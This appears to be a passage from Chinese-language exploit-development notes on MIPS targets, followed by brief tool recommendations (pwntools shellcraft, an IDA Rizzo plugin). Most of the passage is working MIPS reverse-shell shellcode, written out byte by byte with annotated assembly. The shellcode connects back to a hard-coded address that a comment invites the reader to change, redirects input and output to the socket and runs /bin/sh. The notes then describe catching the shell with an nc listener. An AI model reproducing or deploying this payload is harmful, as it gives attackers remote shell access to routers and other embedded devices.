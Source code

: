 

```
         "\x24\x0f\xff\xfd"        // li      t7,-3
         "\x01\xe0\x20\x27"        // nor     a0,t7,zero
         "\x01\xe0\x28\x27"        // nor     a1,t7,zero
         "\x28\x06\xff\xff"        // slti    a2,zero,-1
         "\x24\x02\x10\x57"        // li      v0,4183 ( sys_socket )
         "\x01\x01\x01\x0c"        // syscall 0x40404   //创建套接字
         "\xaf\xa2\xff\xff"        // sw      v0,-1(sp)  //v0存放返回地址
         "\x8f\xa4\xff\xff"        // lw      a0,-1(sp)  //第一个参数
         "\x24\x0f\xff\xfd"        // li      t7,-3 ( sa_family = AF_INET )
         "\x01\xe0\x78\x27"        // nor     t7,t7,zero   
         "\xaf\xaf\xff\xe0"        // sw      t7,-32(sp) 
         "\x3c\x0e\x7a\x69"        // lui     t6,0x7a69 ( sin_port = 0x7a69 )
         "\x35\xce\x7a\x69"        // ori     t6,t6,0x7a69
         "\xaf\xae\xff\xe4"        // sw      t6,-28(sp)
      /* ====================  You can change ip here ;) ====================== */
         "\x3c\x0d\xc0\xa8"        // lui     t5,0xc0a8 ( sin_addr = 0xc0a8 ... 
         "\x35\xad\x01\x64"        // ori     t5,t5,0x164           ...0164 )
      /* ====================================================================== */
         "\xaf\xad\xff\xe6"        // sw      t5,-26(sp)
         "\x23\xa5\xff\xe2"        // addi    a1,sp,-30
         "\x24\x0c\xff\xef"        // li      t4,-17 ( addrlen = 16 )     
         "\x01\x80\x30\x27"        // nor     a2,t4,zero 
         "\x24\x02\x10\x4a"        // li      v0,4170 ( sys_connect ) 
         "\x01\x01\x01\x0c"        // syscall 0x40404
         "\x24\x0f\xff\xfd"        // li      t7,-3
         "\x01\xe0\x28\x27"        // nor     a1,t7,zero
         "\x8f\xa4\xff\xff"        // lw      a0,-1(sp)
//dup2_loop:
         "\x24\x02\x0f\xdf"        // li      v0,4063 ( sys_dup2 )
         "\x01\x01\x01\x0c"        // syscall 0x40404
         "\x20\xa5\xff\xff"        // addi    a1,a1,-1
         "\x24\x01\xff\xff"        // li      at,-1
         "\x14\xa1\xff\xfb"        // bne     a1,at, dup2_loop
         "\x28\x06\xff\xff"        // slti    a2,zero,-1
         "\x3c\x0f\x2f\x2f"        // lui     t7,0x2f2f
         "\x35\xef\x62\x69"        // ori     t7,t7,0x6269
         "\xaf\xaf\xff\xf4"        // sw      t7,-12(sp)
         "\x3c\x0e\x6e\x2f"        // lui     t6,0x6e2f
         "\x35\xce\x73\x68"        // ori     t6,t6,0x7368
         "\xaf\xae\xff\xf8"        // sw      t6,-8(sp)
         "\xaf\xa0\xff\xfc"        // sw      zero,-4(sp)
         "\x27\xa4\xff\xf4"        // addiu   a0,sp,-12
         "\x28\x05\xff\xff"        // slti    a1,zero,-1
         "\x24\x02\x0f\xab"        // li      v0,4011 ( sys_execve )
         "\x01\x01\x01\x0c";       // syscall 0x40404
exp
```
创建socker，反弹shell
用nc -lvvp 

## 工具推荐

pwnlib库 https://docs.pwntools.com/en/stable/shellcraft/mips.html








Rizzo
https://github.com/H4lo/IDA7-Rizzo
https://www.anquanke.com/post/id/199112#h2-16